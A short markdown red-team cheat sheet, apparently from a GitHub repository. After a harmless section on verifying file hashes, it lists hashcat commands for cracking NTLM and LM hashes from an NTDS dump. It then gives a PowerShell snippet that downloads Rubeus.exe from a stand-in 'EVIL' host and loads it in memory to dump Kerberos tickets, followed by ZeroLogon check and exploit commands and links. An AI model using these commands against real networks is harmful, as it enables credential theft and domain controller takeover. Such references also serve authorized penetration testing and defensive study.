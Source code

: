 
## Verify Hashes

* Linux
   * `sha256sum <file>`
* MacOS
   * `shasum -a 256 <file>`
* OpenSSL
   * `openssl dgst -sha256 <file>`
* Windows
   * `Get-FileHash <file>`


## Hashcat

* Remove machine accounts
   * `grep -F -v '$' dump.ntds.full > dump.ntds`
* Cracking
   * `hashcat -m 1000 dump.ntds mystery-list.txt -r OneRuleToRuleThemAll.rule`
* LM incremental
   * `hashcat -m 3000 dump.ntds -a 3 '?a?a?a?a?a?a?a' -i`
* NTLM incremental
   * `hashcat -m 1000 dump.ntds -a 3 '?a?a?a?a?a?a?a?a' -i`


## Load C# assembly reflectively

* Ensure that the referenced class and main methods are public before running this!

```
$data = (New-Object System.Net.WebClient).DownloadData('http://EVIL/Rubeus.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[Rubeus.Program]::Main("dump".Split())
```


## PrivExchange

* https://github.com/Ridter/Exchange2domain
* Patched as of Feburary 12th, 2019


## ZeroLogon

* Check
  * `crackmapexec smb <ip> -d <domain> -u <user> -p <pass> -M zerologon`
  * `lsadump::zerologon /target:<dc_fqdn> /account:<dc01$>`
* Exploit
  * https://github.com/dirkjanm/CVE-2020-1472
  * https://github.com/nccgroup/nccfsas/tree/main/Tools/SharpZeroLogon
  * Or use Mimikatz (lsadump::zerologon)
* Patched as of August 11th, 2020
